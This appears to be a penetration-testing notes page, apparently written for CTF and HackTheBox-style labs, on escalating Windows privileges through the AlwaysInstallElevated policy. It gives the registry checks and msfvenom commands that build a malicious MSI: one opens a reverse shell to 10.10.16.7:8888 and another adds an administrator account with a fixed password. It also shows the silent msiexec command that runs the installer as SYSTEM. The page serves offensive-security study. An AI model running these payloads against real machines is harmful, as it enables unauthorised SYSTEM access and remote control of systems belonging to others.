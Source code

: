 # Options Install Windows
## Privilege escalation with `AlwaysInstallElevated` group policy
MSI files are package files used to install applications. These files run with the permissions of the user trying to install
them. Windows allows for these installers to be run with elevated (i.e. admin) privileges.

Windows can allow low privilege users to install *Microsoft Windows Installer Package (MSI)* with **`SYSTEM`** privileges by **AlwaysInstallElevated** group policy.
So, we can generate a malicious MSI file which contains a reverse shell.
### Prerequisites
The catch is that two Registry settings must be enabled for this to work (value is 0x1), then users of **any privilege** can install (execute) `*.msi` files as **NT AUTHORITY\SYSTEM**.

The **AlwaysInstallElevated** value must be set to 1 for both: 
- the local machine:
```console
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
- the current user:
```console
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
If either of these are missing or disabled, the exploit will not work.
### Exploitation
1. Use **winPEAS** to see if both registry values are set:
```console
> .\winPEASany.exe quiet windowscreds
����������͹ Checking AlwaysInstallElevated
 https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```
2. Alternatively, verify the values manually:
```console
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
```console
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
3. Create a new reverse shell with msfvenom, this time using the **msi** format, and save it with the **.msi** extension:
```console
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=8888 -f msi -o reverse.msi
```
or
```console
# msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
# msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```
4. Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:
```console
> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
If you have a meterpreter session you can automate this technique using the module **`exploit/windows/local/always_install_elevated`**

*See an example at the Love machine - hackthebox*
